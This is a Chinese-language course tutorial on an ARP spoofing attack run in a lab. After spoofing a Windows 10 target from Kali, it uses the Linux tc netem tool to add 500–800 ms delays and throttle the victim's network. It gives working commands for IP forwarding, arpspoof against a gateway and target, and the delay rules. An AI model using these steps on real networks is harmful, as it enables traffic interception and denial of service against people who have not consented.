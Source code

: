# ARP限制网速攻击

大家没想到吧，ARP还能限制对方网速。当kali欺骗了网关和受害者的时候，受害者访问网络就需要经过kali的网卡，那我们限制kali网卡的速度或者转发的速度就可以限制对方的网速。这里可以使用的工具有tc、iptables、WonderShaper等等，我们以tc为例，tc是通过限制网卡的速度来限制对方的，是一种杀敌一千自损八百的手段。

## 1.TC工具介绍

在Linux中，流量控制都是通过TC这个工具来完成的。通常， 要对网卡进行流量控制的配置，需要进行如下的步骤:

◆ 为网卡配置一个队列;

◆ 在该队列上建立分类;

◆ 根据需要建立子队列和子分类;

◆ 为每个分类建立过滤器。

需要注意的是， 在TC 中使用下列的缩写表示相应的网络延迟:

时间的计量单位：

s、sec或者secs               秒

ms、msec或者msecs            毫秒

us、usec、usecs或者一个无单位数字  微秒

QDisc(排队规则) [qdɪsk]是queueing discipline [ˈkjuːɪŋ] [ˈdɪsəplɪn] 的简写，它是理解流量控制(traffic control)的基础。无论何时，内核如果需要通过某个网络接口发送数据包，它都需要按照为这个接口配置的qdisc(排队规则)把数据包加入队列。然后，内核会尽可能多地从qdisc里面取出数据包，把它们交给网络适配器驱动模块。

## 2.TC命令介绍

由于kali是使用eth0进行上网，于是可以在eth0网卡上添加排队规则qdisc

#### 1.限制网速200ms延时

```
tc qdisc add dev eth0 root netem delay 200ms
参数：
qdisc：排队规则
add:添加
dev：设备（网卡）
root：root用户身份
netem delay：设置网络延时时间
```

#### 2.取消限制网速200ms延时

```
tc qdisc del dev eth0 root netem delay 200ms
参数：
qdisc：排队规则
del:删除
dev：设备（网卡）
root：root用户身份
netem delay：设置网络延时时间
```

#### 3.修改网络延时

```
tc qdisc change  dev eth0 root netem delay 300ms
参数：
qdisc：排队规则
change:修改
dev：设备（网卡）
root：root用户身份
netem delay：设置网络延时时间
```

## 3.ARP攻击限制网速的具体步骤

#### 1.开启端口转发

```
cat /proc/sys/net/ipv4/ip_forward 	        #值为0表示没开启流量转发，为1表示开启了
echo 1 > /proc/sys/net/ipv4/ip_forward     #开启流量转发
```

#### 2.开启ARP攻击

```
arpspoof -i eth0 -r 192.168.110.1 -t 192.168.110.11
```

#### 3.查看靶机当前的网速

```
https://www.speedtest.cn/
```

在开启arp攻击，并且没有限速的情况下，网速如下图所示。

![image-20240928132336265](6.ARP限制网速攻击/image-20240928132336265.png)	

#### 4.开启网络延迟限速

```
tc qdisc add dev eth0 root netem delay 500ms
```

![image-20240928133239908](6.ARP限制网速攻击/image-20240928133239908.png)	

#### 5.查看限速规则

```
tc qdisc show
```

查看规则，发现此时限速是500ms

![image-20240928133255514](6.ARP限制网速攻击/image-20240928133255514.png)	

#### 6.查看靶机当前的网速

```
https://www.speedtest.cn/
```

由于设置延迟过高，导致无法测试网速了。

![image-20240928133341907](6.ARP限制网速攻击/image-20240928133341907.png)	

#### 7.修改网速限制

```
tc qdisc change dev eth0 root netem delay 800ms
```

#### 8.查看限速规则

```
tc qdisc show
```

#### 9.查看靶机当前的网速

```
https://www.speedtest.cn/
```

#### 10.取消限速

```
tc qdisc del dev eth0 root netem delay 800ms
```

取消限速规则

![image-20240928133511876](6.ARP限制网速攻击/image-20240928133511876.png)	

#### 11.查看限速规则

```
tc qdisc show
```

#### 12.查看靶机当前的网速

```
https://www.speedtest.cn/
```

此时win10靶机网速恢复正常

![image-20240928133620853](6.ARP限制网速攻击/image-20240928133620853.png)	

## 4.限速原理讲解

![image-20240928130055579](6.ARP限制网速攻击/image-20240928130055579.png)		

## 5.课堂小结

请参考：ARP限制网速攻击-课后笔记.xmind

